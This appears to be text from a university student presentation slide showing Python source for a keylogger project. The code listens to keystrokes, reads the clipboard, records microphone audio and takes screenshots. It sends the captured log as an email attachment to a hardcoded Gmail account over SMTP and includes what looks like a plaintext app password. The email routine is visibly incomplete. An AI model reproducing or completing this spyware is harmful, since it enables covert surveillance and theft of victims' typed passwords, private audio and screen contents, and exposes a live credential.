

# Project Implementation
# email controls
def send_email(filename, attachment, toaddr):
    fromaddr = email_address
    msg = MIMEMultipart()
    msg['From'] = fromaddr
    msg['To'] = toaddr
    msg['Subject'] = "Log File"
    body = "Body_of_the_mail"
    msg.attach(MIMEText(body, 'plain'))
    filename = filename
    attachment = open(attachment, 'rb')
    p = MIMEBase('application', 'octet-stream')
    p.set_payload(attachment.read())
    encoders.encode_base64(p)
    p.add_header('Content-Disposition', "attachment; filename= %s" % filename)
    msg.attach(p)
    s = smtplib.SMTP('smtp.gmail.com', 587)
    s.starttls()
s.quit()
send_email(keys_information, file_path + extend + keys_information, toaddr)

# Libraries
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import smtplib
import socket
import platform
import win32clipboard
from pynput.keyboard import Key, Listener
import time
import os
from scipy.io.wavfile import write
import sounddevice as sd
from cryptography.fernet import Fernet
import getpass
from requests import get
from multiprocessing import Process, freeze_support
from PIL import ImageGrab
# Code
keys_information = "key_log.txt"
system_information = "systeminfo.txt"
clipboard_information = "clipboard.txt"
audio_information = "audio.wav"
screenshot_information = "screenshot.png"
keys_information_e = "e_key_log.txt"
system_information_e = "e_systeminfo.txt"
clipboard_information_e = "e_clipboard.txt"

microphone_time = 30
time_iteration = 15
number_of_iterations_end = 3

email_address = "completekeyloggerpt1@gmail.com"
password = "hilfbqrtzmscwfqk"
username = getpass.getuser()
toaddr = "completekeyloggerpt1@gmail.com"
file_path = "F:\\Project Files\\Python"
extend = "\\"
file_merge = file_path + extend

11 November 2022
Department of CSE
7